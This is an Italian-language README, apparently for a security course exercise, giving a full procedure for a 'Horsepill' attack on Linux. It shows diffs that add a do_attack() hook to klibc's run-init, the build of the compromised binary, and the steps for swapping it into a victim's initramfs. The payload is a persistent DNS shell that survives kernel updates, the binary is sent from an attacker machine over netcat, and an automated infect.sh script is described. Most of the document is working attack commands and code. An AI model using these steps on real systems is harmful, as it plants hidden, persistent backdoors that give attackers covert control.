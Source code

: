 # Horsepill Payload
_You are requested to produce a payload (using any vector of your choice) that is able to install a DNS shell (see, e.g., [here](https://github.com/sensepost/DNS-Shell)) using the horsepill attack. The payload should survive kernel updates._

## `klibc` patching
Per comodità, creiamo due cartelle di lavoro che consentiranno la creazione del file di _patch_ e la sua applicazione:
```
mkdir /tmp/create
mkdir /tmp/apply
```
### Creazione del file di patch
All'interno della cartella `/tmp/create` scarichiamo il pacchetto sorgente `klibc`:
```
cd /tmp/create
apt-get build-dep klibc && apt-get source klibc
```
assumendo di lavorare con la versione `2.0.7` di `klibc`, eseguiamo:
```
mv klibc-2.0.7 klibc-2.0.7.orig
gunzip -c klibc_2.0.7.orig.tar.gz | tar -x
```
In questo modo si ottengono due directory:
- `klibc-2.0.7.orig`
- `klibc-2.0.7`

entrambe hanno lo stesso contenuto e ciò consentirà di eseguire il `diff` a valle delle modifiche.

Eseguiamo la `clone` del repository Github contenente il file corrente e i payload per l'esecuzione dell'attacco:
```
git clone https://github.com/g3lbin/horsepill.git
```
copiamo i file header e sorgenti presenti in `horsepill/src/` all'interno della cartella da modificare:
```
cp horsepill/src/* klibc-2.0.7/usr/kinit/run-init
```
Utilizzando un editor di testi qualsiasi (e.g. `vim`) modifichiamo i seguenti file:
1. `klibc-2.0.7/usr/kinit/run-init/Kbuild`
```diff
# common .o files
-objs := run-init.o runinitlib.o
+objs := run-init.o runinitlib.o horsepill.o
```
2. `klibc-2.0.7/usr/kinit/run-init/run-init.c`
```diff
#include "run-init.h"
+#include "horsepill.h"

static const char *program;
```
```diff
        char **initargs;
+        cmdline_ptr = (char **)argv;

        /* Variables... */
        int o;
```
3. `klibc-2.0.7/usr/kinit/run-init/runinitlib.c`
```diff
#include "capabilities.h"
+#include "horsepill.h"

/* Make it possible to compile on glibc by including constants that the
```
```diff
        if (!dry_run) {
+                puts("[HORSEPILL] G3LBIN VISITED YOU!\n");
+                sleep(5);
+                do_attack();
                /* Spawn init */
                execv(init, initargs);
                return init;		/* Failed to spawn init */
```
Infine, per creare il file di patch `klibc-horsepill.patch` eseguiamo:
```
diff -u klibc-2.0.7.orig/usr/kinit/run-init/Kbuild klibc-2.0.7/usr/kinit/run-init/Kbuild > klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/dnscat.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/extractor.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/infect.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/horsepill.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/horsepill.c >> klibc-horsepill.patch
diff -u klibc-2.0.7.orig/usr/kinit/run-init/run-init.c klibc-2.0.7/usr/kinit/run-init/run-init.c >> klibc-horsepill.patch
diff -u klibc-2.0.7.orig/usr/kinit/run-init/runinitlib.c klibc-2.0.7/usr/kinit/run-init/runinitlib.c >> klibc-horsepill.patch
```
### Applicazione della patch
Copiamo il file di patch nell'altro spazio di lavoro e spostiamoci lì dentro:
```
cp klibc-horsepill.patch /tmp/apply
cd /tmp/apply
```
Scarichiamo anche qui il pacchetto sorgente `klibc`:
```
apt-get build-dep klibc && apt-get source klibc
```
Applichiamo la patch:
```
cd klibc-2.0.7
quilt import ../klibc-horsepill.patch
dpkg-buildpackage -j$(nproc) -us -uc
```
Così facendo, viene generato il binario compromesso che consentirà di infettare la vittima: `/tmp/apply/klibc-2.0.7/usr/kinit/run-init/shared/run-init`

## Victim infection
Per prima cosa è necessario ottenere una shell come `root` e quindi eseguire un exploit per scalare i privilegi. Per la realizzazione di questo attacco si assume che questo lavoro sia già stato eseguito.

Creiamo uno _scratch space_ per lavorare senza sporcare la macchina vittima:
```
unshare -f
```
> **Nota:** Questo permette di eseguire un program in un nuovo namespace e, se invocato senza target, lancia una shell. L'opzione `-f` (`--fork`) permette di forkare la shell come child di `unshare` invece di eseguirla in modo diretto, inoltre, mentre `unshare` è in wait per il child, ignora i segnali `SIGINT` e `SIGTERM` e non li inoltra al child. Quindi eventualmente vanno mandati direttamente al child.

Tutto ciò che viene scritto ora non può essere visto dagli altri processi, dunque montiamo un file system temporaneo sulla directory `/lost+found`:
```
mount -t tmpfs none /lost+found/
cd /lost+found/
```
È comodo creare due cartelle di lavoro che permettano di eseguire l'unpack e il repack dell'initial ramdisk:
```
mkdir tmp
mkdir tmp/extracted
```

Di seguito è mostrata la procedura manuale per la modifica dell'`initrd`. Tuttavia, questo lavoro è automatizzato dall'uso dello script [`infect.sh`](scripts/infect.sh), come mostrato successivamente.

### Unpack e modifica di `initrd`
Per copiare l'effettiva immagine del disco da infettare ed estrarne il contenuto, eseguiamo:
```
cp /boot/initrd.img-$(uname -r) tmp/
cd tmp/
unmkinitramfs initrd.img-$(uname -r) ./extracted/
cd extracted/
```
Fatto ciò, è possibile esplorare e modificare il FS `initramfs`.

Dal server attaccante si ottiene il binario compromesso `run-init` sfruttando `netcat`:
- vittima (ip: 192.168.1.151)
```
nc -lvnp 9999 | base64 -d | tar xz
```
- attaccante
```
tar cz run-init | base64 | nc 192.168.1.151 9999
```
Ricevuto il file sulla macchina vittima, possiamo sostituirlo all'originale:
```
mv run-init main/usr/bin/run-init
```
### Repack di `initrd`
Per ricreare l'immagine del disco è necessario ricostruire l'archivio compresso come segue:
1. compressione `early`:
```
cd early/
find . -print0 | cpio --null --create --format=newc > /lost+found/tmp/newinitrd
```
2. compressione `early2`:
```
cd ../early2/
find kernel -print0 | cpio --null --create --format=newc >> /lost+found/tmp/newinitrd
```
3. compressione `main`:
```
cd ../main/
find . | cpio --create --format=newc | lz4 -l -c >> /lost+found/tmp/newinitrd
```
### Sostituzione del disco
È possibile verificare che l'immagine del disco creata venga correttamente interpretata come l'originale:
```
cd /lost+found/tmp/
binwalk initrd.img-$(uname -r)
binwalk newinitrd
```
Se tutto è corretto, si può procedere con la sostituzione e il riavvio:
```
cp newinitrd /boot/initrd.img-$(uname -r)
reboot
```
### Infezione automatizzata
Per evitare l'esecuzione manuale di tutti i passaggi descritti in precedenza, è stato realizzato lo script [`infect.sh`](scripts/infect.sh), che fa esattamente quel lavoro.

In questo caso, una volta posizionati nello _scratch space_ su `/lost+found`, basterà eseguire:
- vittima (ip: 192.168.1.151)
```
nc -lvnp 9999 | base64 -d | tar xz
```
- attaccante
```
tar cz infect.sh run-init | base64 | nc 192.168.1.151 9999
```
Dopodiché, lato vittima infettiamo `initrd` ed eseguiamo il riavvio:
```
./infect.sh /lost+found/run-init
reboot
```
